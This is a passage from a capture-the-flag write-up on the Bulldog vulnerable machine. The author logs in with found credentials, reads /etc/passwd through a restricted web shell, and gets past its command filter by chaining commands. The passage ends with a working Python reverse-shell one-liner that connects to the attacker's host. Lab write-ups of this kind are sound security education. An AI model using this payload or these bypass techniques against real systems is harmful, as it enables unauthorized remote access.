 Well, seems that I can't do anything. I'm in but, nothing to see here! What about sarah:bulldoglover?

![Log in using sarah]({{site.baseurl}}/images/posts/bulldog-1/19.png)

Nothing... Hold on a sec. In the /dev directory there's a shell that I can't access if I'm not logged in. What If I log in and I access the page?

![Access web shell]({{site.baseurl}}/images/posts/bulldog-1/20.png)

Yes! I am now in the world's most secure webshell.

Apparently, I can run only run a few controlled commands, like 'ls' for instance.

![Ls command]({{site.baseurl}}/images/posts/bulldog-1/21.png)

What if I inject some commands?

![Command injection]({{site.baseurl}}/images/posts/bulldog-1/22.png)

Nope. I was "caught". What about the command cd?

![Caught]({{site.baseurl}}/images/posts/bulldog-1/23.png)

Nope. Also, "caught".

Some commands work well, but the cat command sometimes gives me a 500 server error.

![500 error]({{site.baseurl}}/images/posts/bulldog-1/24.png)

I know that it is running ssh on port 23. Let's try to log in with the users we just got... Nope. Neither using "nick" or "sarah" will give me access. The good thing though, is that I have access to the command "cat" in the webshell. Maybe I can check the list of users using "cat /etc/passwd":

![Check users list]({{site.baseurl}}/images/posts/bulldog-1/25.png)

Ok. Now I know that there are two important users: bulldogadmin and django. None of those, however, accept bulldog or bulldoglover as the password when logging via ssh.

After trying to take advantage of this shell, I realize that if I use two commands in the same line... it doesn't complain! for instance:

![Duplicate commands]({{site.baseurl}}/images/posts/bulldog-1/26.png)

Here, I used a command that I wasn't suppose to run...It'll be great if I can give myself access to a shell, and connect from my attacking machine. I'll explore this a bit further. 

After trying to get a shell directly with Netcat, the server crashes. I can't get a reverse shell directly, but I can upload a file to the server and execute some script that will eventually give me a shell.

I create on my local computer a file called file.py that contains the following code:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.11",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
